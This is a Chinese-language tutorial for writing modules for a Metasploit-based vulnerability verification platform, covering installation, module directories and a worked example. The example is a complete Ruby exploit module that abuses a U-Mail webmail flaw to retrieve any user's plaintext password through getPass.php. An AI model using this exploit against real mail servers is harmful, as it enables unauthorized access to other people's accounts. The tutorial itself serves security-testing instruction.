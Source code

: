 快速入门
========

简介
^^^^

　　MetaScan漏洞验证平台基于metasploit-framework框架而推，基于这个框架，你可以编写出属于你自己的漏洞验证模块，编写模块的相关说明，此文档将做详细的描述，同时我们也会奉上例子供您参考。期待您的加入，让我们一同成为安全牛。

环境配置
^^^^^^^^

1.下载程序

　　磨刀不误砍柴工，在写模块之前需要搭建好相关环境。如果你是个勤劳的白帽子，我们建议您在*nix系统中完整的安装一次Metasploit，有助于对该框架的多一些了解，不过，熟悉kali的人大都知道系统自身带有现成的环境。Metasploit和Kali Linux的相关下载地址参考如下::

　　Metasploit境内官方下载地址：http://www.metasploit.cn/thread-3-1-1.html
　　Metaspoit境外官方下载地址：
　　--Metasploit for Linux 64-bit:
　　Kali Linux境内官方下载地址：
　　Kali Linux境外官方下载地址：https://www.kali.org/downloads/

2.安装程序

　　Metasploit因存在windows和linux两个版本，windows下的安装方式较为常规，此处只介绍在linux系统下的安装方法。

a、添加执行权限：：
　　64位：chmod +x /path/to/metasploit-latest-linux-x64-installer.run
　　32位：chmod +x /path/to/metasploit-latest-linux-installer.run

b、以root权限运行安装程序
　　64位：sudo /path/to/metasploit-latest-linux-x64-installer.run
　　32位：sudo /path/to/metasploit-latest-linux-installer.run

c、在出现Metasploit的安装窗口之后，均按默认选项执行并单击‘Forward’即可完成安装。
 
注：编写Metaplosit模块所使用的语言是ruby， Metasploit和Kali Linux在安装完成后均包含了需要的ruby环境，用户可以直接进行相关操作，至于IDE以及Metasploit的两个不同平台的版本选择，此处不做推荐，可以根据自身熟悉情况而定。

3.相关目录

进入Metasploit的目录::

　　cd /opt/metasploit/apps/pro/msf3/modules/exploits

注：该目录存放的主要是漏洞验证相关的模块，用户所写的相关漏洞验证模块均存放在此目录下，感兴趣的白帽子也可以写一些工具性的模块，工具性的模块主要存放在/opt/metasploit/apps/pro/msf3/modules/auxiliary目录中，但类似这些模块均不在此文档中做说明，用户可自行研究。

编写模块
^^^^^^^^

1.编写规范

参考如下::
　　https://ruby-china.org/wiki/coding-style

2.示例参考

　　以乌云上的漏洞来源为例子：http://www.wooyun.org/bugs/wooyun-2010-061894（用户在写模块时，可自行从网上搜索漏洞）

　　U-Mail邮件系统权限设置问题导致任意用户密码可越权查看，指定为一个已存在的邮箱账号即可查看任意账户密码。

　　新建一个新的利用模块umail_pass.rb：：
　　cd /opt/metasploit/apps/pro/msf3/modules/exploits
　　vi umail_pass.rb

　　示例代码如下::

　　#encoding:utf-8
　　require 'msf/core'
　　class Metasploit3 < Msf::Exploit::Remote
　　  Rank = ExcellentRanking
　　  include Msf::Exploit::Remote::HttpClient
　　
　　  def initialize(info={})
　　    super(update_info(info,
　　        'Name'           => "U-Mail System Unauthorized Access Vulnerability",
　　        'Description'    => %q{
　　          　　U-Mail邮件系统权限设置问题导致任意用户密码可越权查看，当updata参数的值为s，只需将email参数的值指定为一个已存在的邮箱账号即可查看任意账户密码。
　　        },
　　        'License'        => MSF_LICENSE,
　　        'Author'         =>
　　          [
　　          'Rain'    #Metasploit-CNNS
　　        ],
　　        'Platform'        => [ 'php' ],
　　        'Arch'           => ARCH_PHP,
　　        'Targets'        =>[[ 'U-Mail', { }]],
　　        'Privileged'     => false,
　　        'DisclosureDate' => "Apr 11 2011",
　　        'DefaultTarget'  => 0))
　　    register_options(
　　      [
　　        OptString.new('RHOST', [true, 'The DOMAIN', '']), 
　　        OptString.new('RPORT', [true, 'The port', '80']),
　　        OptString.new('TARGETURI', [true, 'The base path to U-Mail', '/webmail/']),
　　        OptString.new('EMAIL', [true, 'The email to U-Mail', '']),
　　      ], self.class)
　　  end
　　
　　  def exploit
　　    begin
　　	    res = send_request_cgi( {
　　	        'method' => "GET",
　　	        'uri'    => normalize_uri(datastore['TARGETURI']) + "/getPass.php?update=s&email=#{datastore['EMAIL']}"
　　	      }, 20)
　　    rescue ::Rex::ConnectionRefused, ::Rex::HostUnreachable, ::Rex::ConnectionTimeout
　　    rescue ::Timeout::Error, ::Errno::EPIPE
　　    end
　　      body_data = res.body.force_encoding('UTF-8')
　　      if body_data =~ /你的密码是/
　　        data = body_data.scan(/你的密码是\<\/p\>\<p\>\<center\>\<font color=red\>(.*?)\<\/font\>/)
　　        if data and data.first and data.first.first
　　          print_good("---------账号--------\n邮箱 = #{datastore['EMAIL']}, 密码 = #{data.first.first}", "good")
　　        else 
　　          print_error("漏洞利用失败！")
　　        end
　　      else
　　        print_error("漏洞利用失败！")
　　      end
　　  end
　　end


常见问题
^^^^^^^^